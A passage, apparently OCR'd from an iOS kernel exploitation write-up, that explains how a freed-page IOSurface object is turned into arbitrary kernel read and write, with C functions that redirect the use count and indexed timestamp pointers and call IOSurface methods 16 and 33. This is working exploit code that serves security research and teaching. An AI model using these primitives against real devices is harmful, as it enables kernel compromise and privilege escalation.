 ```c
    return 0;
}
```

### Achieving Kernel Read/Write with IOSurface

After achieving control over an IOSurface object in kernel memory (mapped to a freed physical page accessible from userspace), we can use it for **arbitrary kernel read and write operations**.

**Key Fields in IOSurface**

The IOSurface object has two crucial fields:

1. **Use Count Pointer**: Allows a **32-bit read**.
2. **Indexed Timestamp Pointer**: Allows a **64-bit write**.

By overwriting these pointers, we redirect them to arbitrary addresses in kernel memory, enabling read/write capabilities.

#### 32-Bit Kernel Read

To perform a read:

1. Overwrite the **use count pointer** to point to the target address minus a 0x14-byte offset.
2. Use the `get_use_count` method to read the value at that address.

```c
uint32_t get_use_count(io_connect_t client, uint32_t surfaceID) {
    uint64_t args[1] = {surfaceID};
    uint32_t size = 1;
    uint64_t out = 0;
    IOConnectCallMethod(client, 16, args, 1, 0, 0, &out, &size, 0, 0);
    return (uint32_t)out;
}

uint32_t iosurface_kread32(uint64_t addr) {
    uint64_t orig = iosurface_get_use_count_pointer(info.object);
    iosurface_set_use_count_pointer(info.object, addr - 0x14); // Offset by 0x14
    uint32_t value = get_use_count(info.client, info.surface);
    iosurface_set_use_count_pointer(info.object, orig);
    return value;
}
```

#### 64-Bit Kernel Write

To perform a write:

1. Overwrite the **indexed timestamp pointer** to the target address.
2. Use the `set_indexed_timestamp` method to write a 64-bit value.

```c
void set_indexed_timestamp(io_connect_t client, uint32_t surfaceID, uint64_t value) {
    uint64_t args[3] = {surfaceID, 0, value};
    IOConnectCallMethod(client, 33, args, 3, 0, 0, 0, 0, 0, 0);
}

void iosurface_kwrite64(uint64_t addr, uint64_t value) {
    uint64_t orig = iosurface_get_indexed_timestamp_pointer(info.object);
    iosurface_set_indexed_timestamp_pointer(info.object, addr);
    set_indexed_timestamp(info.client, info.surface, value);
    iosurface_set_indexed_timestamp_pointer(info.object, orig);
}
```
